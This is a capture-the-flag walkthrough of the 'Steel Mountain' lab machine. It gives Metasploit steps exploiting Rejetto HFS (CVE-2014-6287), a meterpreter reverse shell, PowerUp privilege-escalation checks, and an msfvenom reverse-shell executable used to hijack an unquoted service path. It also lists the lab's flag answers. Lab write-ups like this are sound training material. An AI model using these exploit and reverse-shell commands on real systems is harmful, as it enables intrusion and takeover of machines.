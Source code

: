 ![c9030a2b60bb7d1cf4fcb6e5032526d3](https://github.com/user-attachments/assets/1fccd7c7-a3e3-414c-85f9-337b55ee033d)
 
# Steel Mountain Walkthrough
## TASK 1 - Introduction

Who is the employee of the month?

![Screenshot](https://github.com/user-attachments/assets/30f54f4f-514e-4272-8cc1-bfa085274d4d)

(Bill Harper)

## TASK 2 - Initial Access

Scan the machine with nmap. What is the other port running a web server on?

![Firefox_Screenshot_2025-03-26T17-56-36 928Z](https://github.com/user-attachments/assets/28807218-6b07-4918-9432-85ef064207b6)

(8080)

Take a look at the other web server. What file server is running?

Open the port 8080 and notice the file server link.

(Rejetto HTTP File Server)

What is the CVE number to exploit this file server?

When you did research on google, you can find CVE number about Rejetto HTTP File Server 2.3: https://www.exploit-db.com/exploits/39161

(2014-6287)

Use Metasploit to get an initial shell. What is the user flag?

1) msfconsole
2) search 2014-6287
3) use 0
4) show options

![Firefox_Screenshot_2025-03-26T20-44-31 403Z](https://github.com/user-attachments/assets/495e8e23-9302-487f-beeb-a6046e0f6b0f)

5) We have to set RHOSTS and RPORT

set RHOSTS $IP

set RPORT 8080

6) set payload windows/meterpreter/reverse_tcp
7) run
8) C:\Users\bill\Desktop // cat user.txt

![Firefox_Screenshot_2025-03-26T21-20-35 228Z](https://github.com/user-attachments/assets/b6350317-e3d9-4aaf-b85b-2f718cd37ddb)

(b04763b6fcf51fcd7c13abc7db4fd365)

## TASK 3 - Privilege Escalation

Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

1) Download the script (https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

2) Upload the script from meterpreter session

![Untitled](https://github.com/user-attachments/assets/0f37002b-a7e0-41a2-9817-594243222e8c)

3) Load powershell in meterpreter (type "load powershell" into meterpreter)

4) Type powershell_shell

5) Type . .\Powerup.ps1

6) Type Invoke-AllChecks

![Untitled](https://github.com/user-attachments/assets/d880fac8-5106-4520-8b72-e02d993c38dd)

(AdvancedSystemCareService9)

What is the root flag?

1) Use msfvenom to generate a reverse shell as an Windows executable. (msfvenom -p windows/shell_reverse_tcp LHOST=your_ip LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe)

![Untitled](https://github.com/user-attachments/assets/288ddbd5-7d64-404c-9692-fffcaede24c0)

2) Open shell and stop the service which using ASCService.exe

sc stop AdvancedSystemCareService9

![Untitled](https://github.com/user-attachments/assets/573a1849-6339-43c0-b846-9610b767b322)

After that exit the shell.

3) Go to C:\Program Files (x86)\IObit\ and upload ASCService.exe file which we generated than copy it to C:\Program Files (x86)\IObit\Advanced SystemCare







(9af5f314f57607c00fd09803a587db80)

## TASK 4 - Access and Escalation Without Metasploit

What powershell -c command could we run to manually find out the service name? 

(powershell -c "Get-Service")



